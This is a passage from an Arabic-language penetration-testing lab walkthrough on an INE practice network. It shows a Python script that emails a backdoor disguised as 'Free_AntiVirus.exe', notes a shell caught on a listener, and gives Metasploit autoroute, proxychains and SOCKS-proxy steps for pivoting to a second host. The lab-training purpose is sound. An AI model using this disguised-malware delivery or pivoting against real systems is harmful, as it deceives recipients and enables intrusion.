 ```python  
# instance of MIMEMultipart
msg = MIMEMultipart()
# storing the senders email address  
msg['From'] = fromaddr
# storing the receivers email address 
msg['To'] = toaddr
# storing the subject 
msg['Subject'] = "Subject of the Mail"
# string to store the body of the mail
body = "Body_of_the_mail"
# attach the body with the msg instance
msg.attach(MIMEText(body, 'plain'))
# open the file to be sent 
filename = "Free_AntiVirus.exe"
attachment = open("/root/backdoor.exe", "rb")
# instance of MIMEBase and named as p
p = MIMEBase('application', 'octet-stream')
# To change the payload into encoded form
p.set_payload((attachment).read())
# encode into base64
encoders.encode_base64(p)
p.add_header('Content-Disposition', "attachment; filename= %s" % filename)
# attach the instance 'p' to instance 'msg'
msg.attach(p)
# creates SMTP session
s = smtplib.SMTP('demo.ine.local', 25)
# Converts the Multipart msg into a string
text = msg.as_string()
# sending the mail
s.sendmail(fromaddr, toaddr, text)
# terminating the session
s.quit()
```  
طبعا الان راح نرسل ملف الـ backdoor عن طريق سكربت البايثون  
```bash
nano send_email.py  
<Paste Code>  
python3 send_email.py  
```  
نشوف انه الان بعد مارسلناه رجعنا لليسنر ونشوف انه جانا شيل ووضعنا تمام التمام  

الان باقي جزئية البفتنق طبعا من الاول يوم نسوي بنق على التارقت فيه واحد منهم مافي اتصال ولا نقدر نسوي له بنق يعني ف بنحاول نسوي بفتنق  
طيب خلونا نجرب نسوي بنق الان من الجهاز الي استغليناه  
```bash  
shell  
ping demo1.ine.local  
```  

نشوف انه فعلا فيه رد من التارقت الثاني بعكس يوم كنا نسوي بنق من المشين حقتنا رافض ولا فيه اتصال  

خلونا الان نسوي بفتنق  
```bash  
CTRL + C  
y  
run autoroute -s 10.0.17.12/20  
```  
الان راح نستغله طبعا بالـ socks4a server  
```bash  
cat /etc/proxychains4.conf  
```  
خلونا الان نشغل السيرفر من الميتاسبلويت  
```bash  
background  
use auxiliary/server/socks_proxy  
show options  
```